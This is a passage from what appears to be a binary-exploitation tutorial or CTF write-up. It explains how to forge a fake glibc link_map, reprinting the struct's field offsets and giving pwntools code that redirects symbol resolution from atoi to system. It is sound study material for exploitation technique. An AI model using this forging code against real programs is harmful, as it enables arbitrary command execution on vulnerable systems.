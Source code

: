 With all theory set up, we are ready to forge the `link_map` and other tables.

#### Forge `link_map`

Recall the struct of `link_map`

```cpp
struct link_map {
  /* Difference between the address in the ELF
   file and the addresses in memory.  */
  Elf64_Addr l_addr;  // 8 bytes

  char *l_name;     // 8 bytes /* Absolute file name object was found in.  */
  Elf64_Dyn *l_ld;  // 8 bytes /* Dynamic section of the shared object.  */
  struct link_map *l_next;  // 8 bytes /* Chain of loaded objects.  */
  struct link_map *l_prev;  // 8 bytes /* Chain of loaded objects.  */

  /* All following members are internal to the dynamic linker.
     They may change without notice.  */
  /* This is an element which is only ever different from a pointer to
     the very same copy of this type for ld.so when it is used in more
     than one namespace.  */
  struct link_map *l_real;  // 8 bytes
  /* Number of the namespace this link map belongs to.  */
  Lmid_t l_ns;                     // 8 bytes
  /* Indexed pointers to dynamic section. */
  struct libname_list *l_libname;  // 8 bytes
  // l_info contains all the sym tables, 77 * 8 bytes
  // l_info[5] is ptr to DT_STRTAB
  // l_info[6] is ptr to DT_SYMTAB
  // l_info[23] is ptr to DT_JMPREL
  Elf64_Dyn *l_info[77];
  ... size_t l_tls_firstbyte_offset;
  ptrdiff_t l_tls_offset;
  size_t l_tls_modid;
  size_t l_tls_dtor_count;
  Elf64_Addr l_relro_addr;
  size_t l_relro_size;
  unsigned long long l_serial;
  struct auditstate l_audit[];
}
```

Here we only cares about

- `l_addr` at offset 0x0
- `l_info[5]` at offset 0x68 that points to `.strtab`
- `l_info[6]` at offset 0x70 that points to `.symtab`
- `l_info[23]` at offset 0xf8 that points to `.rel.plt`

```python
BITMAP_64 = (1 << 64) - 1

# offset between system and target_func
target_func = 'atoi'
l_addr = libc.sym['system'] - libc.sym[target_func]

# link_map
link_map = flat({
    0x0: l_addr & BITMAP_64,  # l_addr
    0x68: some_addr,  # l_info[5], ptr to DT_STRTAB in _DYNAMIC
    # we won't use it so any writable area
    0x70: some_addr,  # l_info[6], ptr to DT_SYMTAB in _DYNAMIC
    0xf8: some_addr,  # l_info[23], ptr to DT_JMPREL in _DYNAMIC
})
```
